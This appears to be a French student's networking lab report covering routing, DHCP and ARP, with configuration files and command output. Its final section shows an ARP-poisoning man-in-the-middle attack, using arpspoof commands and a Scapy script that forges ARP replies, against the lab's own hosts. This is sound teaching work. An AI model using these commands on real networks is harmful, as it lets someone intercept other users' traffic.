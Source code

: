 # TP2 : Routage, DHCP et DNS
  

# I. Routage
  

🌞 **Configuration de `router.tp2.efrei`**

La config :
```
[root@localhost ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:9f:aa:bd brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.56/24 brd 192.168.122.255 scope global dynamic noprefixroute enp0s3
       valid_lft 3533sec preferred_lft 3533sec
    inet6 fe80::a00:27ff:fe9f:aabd/64 scope link
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:15:7f:f6 brd ff:ff:ff:ff:ff:ff
```
Le ping fonctionne :
```
[diego@localhost ~]$ ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=30.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=115 time=28.2 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=115 time=31.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=115 time=29.1 ms
``` 

🌞 **Configuration de `node1.tp2.efrei`**

Conf:
```
VPCS> show

NAME   IP/MASK              GATEWAY           MAC                LPORT  RHOST:PORT
VPCS1  10.2.1.1/24          255.255.255.0     00:50:79:66:68:00  20006  127.0.0.1:20007
       fe80::250:79ff:fe66:6800/64

```
```
VPCS> ping 10.2.1.254/24

84 bytes from 10.2.1.254 icmp_seq=1 ttl=64 time=7.378 ms
84 bytes from 10.2.1.254 icmp_seq=2 ttl=64 time=5.540 ms
84 bytes from 10.2.1.254 icmp_seq=3 ttl=64 time=5.916 ms
84 bytes from 10.2.1.254 icmp_seq=4 ttl=64 time=5.287 ms
84 bytes from 10.2.1.254 icmp_seq=5 ttl=64 time=5.872 ms
```
Ajout de la route par défaut
```
VPCS : 10.2.1.1 255.255.255.0 gateway 10.2.1.254
```

```
VPCS> ping 8.8.8.8

84 bytes from 8.8.8.8 icmp_seq=1 ttl=114 time=39.631 ms
84 bytes from 8.8.8.8 icmp_seq=2 ttl=114 time=40.686 ms
84 bytes from 8.8.8.8 icmp_seq=3 ttl=114 time=31.989 ms
84 bytes from 8.8.8.8 icmp_seq=4 ttl=114 time=34.715 ms
```
Traceroute :
```
VPCS> trace 8.8.8.8
trace to 8.8.8.8, 8 hops max, press Ctrl+C to stop
 1   10.2.1.254   5.252 ms  6.293 ms  4.752 ms
 2   192.168.122.1   11.587 ms  8.636 ms  7.173 ms
 3   10.0.3.2   12.147 ms  11.863 ms  11.110 ms
 4     *  *  *
 5     *  *  *
 6     *  *  *
 7     *  *  *
 8     *  *  *
```

🌞 **Afficher la CAM Table du switch**

```
VPCS> show mac address-table
-------------------------------------------

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    0050.7966.6800    DYNAMIC     Et0/1
   1    0800.2715.7ff6    DYNAMIC     Et0/0
Total Mac Addresses for this criterion: 2
```

# II. Serveur DHCP  

🌞 **Install et conf du serveur DHCP** sur `dhcp.tp2.efrei`
```
[root@localhost ~]# cat /etc/dhcp/dhcpd.conf

authoritative;

subnet 10.2.1.0 netmask 255.255.255.0 {
    range 10.2.1.10 10.2.1.253;
    option broadcast-address 10.2.1.255;
    option routers 10.2.1.254;
    option domaine-name-servers 1.1.1.1;
}
```

🌞 **Test du DHCP** sur `node1.tp2.efrei`
```
Executing the startup file

DDORA IP 10.2.1.10/24 GW 10.2.1.254

Hostname is too long. (Maximum 12 characters)

VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```
🌟 **BONUS**
```
VPCS> show ip

NAME        : VPCS[1]
IP/MASK     : 10.2.1.10/24
GATEWAY     : 10.2.1.254
DNS         : 1.1.1.1
DHCP SERVER : 10.2.1.253
DHCP LEASE  : 43185, 43200/21600/37800
MAC         : 00:50:79:66:68:00
LPORT       : 20005
RHOST:PORT  : 127.0.0.1:20006
MTU         : 1500

VPCS>
```

🌞 **Wireshark it !**

[échange DORA](échange_DHCP_DORA.pcapng)

# III. ARP
## 1. Les tables ARP
🌞 **Affichez la table ARP de `router.tp2.efrei`**
```
[root@localhost ~]# ip neighbor
10.2.1.253 dev enp0s8 lladdr 08:00:27:bb:d8:e2 REACHABLE
10.2.1.10 dev enp0s8 lladdr 00:50:79:66:68:00 STALE
192.168.122.1 dev enp0s3 lladdr 52:54:00:24:5d:59 REACHABLE
```
🌞 **Capturez l'échange ARP avec Wireshark**
[échange ARP](echange_ARP.pcapng)
## 2. ARP poisoning
🌞 **Envoyer une trame ARP arbitraire**
```
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:59:94:8e brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.4/24 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 86371sec preferred_lft 86371sec
    inet6 fe80::a00:27ff:fe59:948e/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
```
🌞 **Mettre en place un ARP MITM**

```
┌──(kali㉿kali)-[~]
└─$ sudo sysctl -w net.ipv4.ip_forward=1
```
```
┌──(kali㉿kali)-[~]
└─$ sudo arpspoof -i eth0 -t 10.2.1.10 10.2.1.254 -r
8:0:27:6e:e4:5f 0:50:79:66:68:0 0806 42: arp reply 10.2.1.254 is-at 8:0:27:6e:e4:5f
8:0:27:6e:e4:5f 8:0:27:54:d3:73 0806 42: arp reply 10.2.1.10 is-at 8:0:27:6e:e4:5f
```
🌞 **Capture Wireshark `arp_mitm.pcap`**

[arp_mitm](arp_mitm.pcap.pcapng)
🌞 **Réaliser la même attaque avec Scapy**
```
from scapy.all import *

while True:
        send(ARP(pdst="10.2.1.10", psrc="10.2.1.254"))
        send(ARP(pdst="10.2.1.254", psrc="10.2.1.10"))
```